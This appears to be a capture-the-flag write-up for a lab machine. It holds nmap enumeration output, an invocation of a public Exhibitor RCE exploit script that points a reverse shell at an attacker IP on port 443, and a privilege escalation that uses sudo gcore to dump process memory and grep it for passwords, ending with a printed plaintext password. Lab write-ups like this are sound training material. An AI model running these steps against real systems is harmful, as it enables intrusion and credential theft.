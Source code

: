 #Pwned! 
```IP
192.168.248.98
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.189.101 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE     REASON         VERSION
22/tcp    open  ssh         syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:                                        
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDssyyACw3AHaTatHhBU1VyBRbKOirrDG8M9IjpJPTf/v8mdIqiXk1HsBdoFZcsmWJVV4OXC7GMcHa+s0tZceTmgGf5TpiCB2yXUYPZre183LjJWM6KQMZVI0LHz9Yd3ji2bdD5jjtVxwnjrdx8GlU1THMGbzZivfSsPF18arMIq3ukYBS09Ov1SIKR4DJ7pjtBR
utRBZKI/8/H+uB2u47AQRwbWuVaOmtZyDrfvgL/IqAFRQrbeP1VNQAErzHl8wNuk1vR+yROv0j7smTqoqqc8aB751O63gtBdCvKzpigwFDLyxYuzu8dW1Hh6ZQzaQZgWkw6SZeExAijK7yXSU61
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUPmkVV/Q+iD07j1sFmdFWp7yppofTTgfzAhvMkyGPulIdMDbzFgW/pRAq3R3zZV7aEcWAMfFHgdXfj3W4FUuc=
|   256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPO1eLYoJ0AhVJ5NIDfaSrfUis34Bw5bKMMdFWzHPx0
139/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         syn-ack ttl 61 CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1
|_http-title: Forbidden - CUPS v2.2.10                
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
2181/tcp  open  zookeeper   syn-ack ttl 61 Zookeeper 3.4.6-1569965 (Built on 02/20/2014)    
2222/tcp  open  ssh         syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:                         
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDssyyACw3AHaTatHhBU1VyBRbKOirrDG8M9IjpJPTf/v8mdIqiXk1HsBdoFZcsmWJVV4OXC7GMcHa+s0tZceTmgGf5TpiCB2yXUYPZre183LjJWM6KQMZVI0LHz9Yd3ji2bdD5jjtVxwnjrdx8GlU1THMGbzZivfSsPF18arMIq3ukYBS09Ov1SIKR4DJ7pjtBR
utRBZKI/8/H+uB2u47AQRwbWuVaOmtZyDrfvgL/IqAFRQrbeP1VNQAErzHl8wNuk1vR+yROv0j7smTqoqqc8aB751O63gtBdCvKzpigwFDLyxYuzu8dW1Hh6ZQzaQZgWkw6SZeExAijK7yXSU61
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUPmkVV/Q+iD07j1sFmdFWp7yppofTTgfzAhvMkyGPulIdMDbzFgW/pRAq3R3zZV7aEcWAMfFHgdXfj3W4FUuc=
|   256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPO1eLYoJ0AhVJ5NIDfaSrfUis34Bw5bKMMdFWzHPx0
8080/tcp  open  http        syn-ack ttl 61 Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        syn-ack ttl 61 nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.248.98:8080/exhibitor/v1/ui/index.html
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
46295/tcp open  java-rmi    syn-ack ttl 61 Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP 8080
powered by jetty
https://github.com/thehunt1s0n/Exihibitor-RCE
```
./exploit.sh 192.168.248.98 8080 192.168.45.193 443
```
## HTTP 8081 
redirects to http://192.168.248.98:8080/exhibitor/v1/ui/index.html


# PrivEsc

## Manual
sudo -l 
reveals
ALL) NOPASSWD: /usr/bin/gcore
```
ps aux | grep -i pass
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241115171938.png?raw=true)
```
sudo gcore 490
```
```
strings core.490 | grep -i pass -C 1
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241115171858.png?raw=true)
```
ClogKingpinInning731
```
## Automated

### Peass
### Mimikatz


